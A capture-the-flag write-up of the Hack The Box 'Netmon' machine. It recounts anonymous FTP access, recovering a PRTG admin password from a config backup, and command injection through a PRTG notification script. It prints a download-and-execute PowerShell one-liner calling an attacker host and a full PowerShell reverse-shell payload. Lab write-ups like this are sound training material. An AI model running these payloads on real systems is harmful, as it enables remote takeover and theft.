





# Table of Contents:

- [Netmon](#netmon)
  - [Network Enum:](#network-enum)
  - [Privilege Escalation:](#privilege-escalation)

<!-- ToC generated using https://imthenachoman.github.io/nGitHubTOC/ -->

# Netmon

https://www.hackthebox.eu/home/machines/profile/177



## Network Enum:

Lets start off with a quick `nmap`:

```bash
root@kali:~/Desktop/netmon# nmap -sV -O 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-12 22:05 EDT
Nmap scan report for 10.10.10.152
Host is up (0.15s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=3/12%OT=21%CT=1%CU=36403%PV=Y%DS=2%DC=I%G=Y%TM=5C88659
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=103%CI=I%II=I%TS=A)OPS(O1=M
OS:54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%
OS:O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%
OS:DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.01 seconds
```

So there is FTP open, lets try and login with anonymous:

```bash
root@kali:~/Desktop/netmon# ftp 10.10.10.152 
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
03-12-19  10:59PM       <DIR>          Public
226 Transfer complete.
ftp> cd administrator
550 Access is denied. 
ftp> cd public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.15 secs (0.2138 kB/s)
ftp> exit
221 Goodbye.
root@kali:~/Desktop/netmon# cat user.txt 
dd58ce67b49e15105e88096c8d9255a5
root@kali:~/Desktop/netmon#
```

BAMN! that's user. Lets take a look at the other service `Paessler PRTG bandwidth monitor` for known exploits. 



Only one is applicable from this list here and its a DOS without remote code execution. Lets do some googleing:

- DOS: https://medium.com/stolabs/stack-overflow-jewish-napalm-on-prtg-network-monitoring-56609b0804c5
- XSS (requires a login): https://medium.com/stolabs/security-issue-on-prtg-network-manager-ada65b45d37b
- Remote Code Execution (requires a login): https://www.codewatch.org/blog/?p=453

Every exploit requires some kind of authentication in order to get remote code execution. With some more searching, we find this on Reddit (https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/):

> With the PRTG Network Monitor version you're running now, we have already encrypted the passwords in the current PRTG Configuration.dat file. However, automatically generated copies of the file still exist in the PRTG data path (for example, PRTG Configuration.old). In addition to this, PRTG Network Monitor has created daily configuration backup copies in a dedicated subfolder. It is very likely that these copies also contain unencrypted passwords. All copies generated by a PRTG Network Monitor version 17.4.35.3326 or later can be affected.

Our version of PRTG is `18.1.37.13946` and we have FTP access to the system. Lets do some digging:

```bash
root@kali:~/Desktop/netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
03-15-19  12:34AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd programdata
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Application Data
02-03-19  08:05AM       <DIR>          Desktop
02-03-19  08:05AM       <DIR>          Documents
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  08:05AM       <DIR>          Start Menu
02-03-19  12:15AM       <DIR>          TEMP
02-03-19  08:05AM       <DIR>          Templates
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
ftp> cd Paessler
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:58PM       <DIR>          PRTG Network Monitor
226 Transfer complete.
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
03-15-19  12:34AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
03-15-19  12:34AM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
02-25-19  11:58PM              1752636 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.30 secs (490.7228 kB/s)
ftp> quit
```

Now lets look at this file:

```bash
root@kali:~/Desktop/netmon# ls -la
total 1108
drwxr-xr-x 2 root root    4096 Mar 15 00:35  .
drwxr-xr-x 5 root root    4096 Mar 12 21:39  ..
-rw-r--r-- 1 root root 1124497 Mar 15 00:35 'PRTG Configuration.old.bak'
root@kali:~/Desktop/netmon# strings PRTG\ Configuration.old.bak | grep -A 3 password
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
              60
            </dbtimeout>
--
... (showing first result)
```

Hmm that's interesting. Lets try and login with this:



Okay, well this is 2019 at the time of writing this and that was an "old" password from 2018. lets try 2019:



## Privilege Escalation:

That's a login! with username `prtgadmin` and password `PrTg@dmin2019`. Now that we have this, let's try the RCE exploit described here: https://www.codewatch.org/blog/?p=453. The idea is to abuse the fact that the program is running as SYSTEM:



The above image comes from another pentester doing a default installation of PRTG and the default install privileges are SYSTEM! Next the pentester describes the RCE feature:

> Many network monitoring tools include the capability of running external programs as part of a “notification” as a feature. PRTG is no exception, however; as I quickly found out, it does not allow you to run just any executable or script of your choosing:


> The instance that I found did not have any available programs to run outside of two demo scripts. Paessler AG confirmed that this is a security feature. PRTG requires any executables or scripts used in a notification to be uploaded to a specific directory on the server. There are no methods in the web application that can be used to upload a script or executable to use as a notification:

Okay, so we need to abuse these default scripts. lets take a look at them. Both files are found under `c:\Program Files (x86)\PRTG Network Monitor\Notifications\EXE`:

```
REM Demo 'BAT' Notification for Paessler Network Monitor
REM Writes current Date/Time into a File
REM 
REM How to use it:
REM 
REM Create a exe-notification on PRTG, select 'Demo Exe Notifcation - OutFile.bat' as program,
REM The Parametersection consists of one parameter:
REM 
REM - Filename
REM 
REM e.g.
REM 
REM         "C:\temp\test.txt"
REM 
REM Note that the directory specified must exist.
REM Adapt Errorhandling to your needs.
REM This script comes without warranty or support.


Echo  %DATE% %TIME% >%1%
```

```powershell
# Demo 'Powershell' Notification for Paessler Network Monitor
# Writes current Date/Time into a File
# 
# How to use it:
# 
# Create a exe-notification on PRTG, select 'Demo Exe Notifcation - OutFile.ps1' as program,
# The Parametersection consists of one parameter:
# 
# - Filename
# 
# e.g.
# 
#         "C:\temp\test.txt"
# 
# Note that the directory specified must exist.
# Adapt Errorhandling to your needs.
# This script comes without warranty or support.


if ($Args.Count -eq 0) {

  #No Arguments. Filename must be specified.

  exit 1;
 }elseif ($Args.Count -eq 1){


  $Path = split-path $Args[0];
  
  if (Test-Path $Path)    
  {
    $Text = Get-Date;
    $Text | out-File $Args[0];
    exit 0;
  
  }else
  {
    # Directory does not exist.
    exit 2;
  }
}
```

We can abuse the Powershell script since it passes `$Args[0]` unsanitized. Here is our test value for the parameter field of the notification: `c:\users\public\bubba.txt; mkdir c:\users\public\bubba `. When running the notification (by hitting the little blue bell on the right), we get both `bubba.txt` and the `bubba` directory under `c:\users\public` when browseing with our FTP access! Now for our shell, we need to modify the values a bit. We will host a payload and have the target fetch and execute it. Here is our new parameter field: 

```powershell
c:\users\public\bubba.txt; Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.10.14.120:8000/p.ps1')
```

And here is our `p.ps1` payload (from https://gist.github.com/staaldraad/a4e7095db8a84061c0ec):

```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.120', 9009);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
  $writer.Write("> ");
  $writer.Flush();
  $read = $null;
  while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){} 
  $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
  if(!$out.equals("exit")){
    $out = $out.split(' ')
          $res = [string](&$out[0] $out[1..$out.length]);
    if($res -ne $null){ $writer.WriteLine($res)}
  }
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```

When running our new notification parameter and hosting the payload, we get the following:

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Desktop/netmon</b></font># python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.152 - - [18/Mar/2019 00:46:46] &quot;GET /p.ps1 HTTP/1.1&quot; 200 -</pre>

And in our other window listening for the callback:

<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Desktop/netmon</b></font># nc -nvlp 9009
listening on [any] 9009 ...
connect to [10.10.14.120] from (UNKNOWN) [10.10.10.152] 51019
&gt; whoami
nt authority\system
&gt; ls c:\users\administrator
Contacts Desktop Documents Downloads Favorites Links Music Pictures Saved Games Searches Videos
&gt; ls c:\users\administrator\desktop 
root.txt
&gt; type c:\users\administrator\desktop\root.txt
3018977fb944bf1878f75b879fba67cc
</pre>

That's root and a reverse shell :)

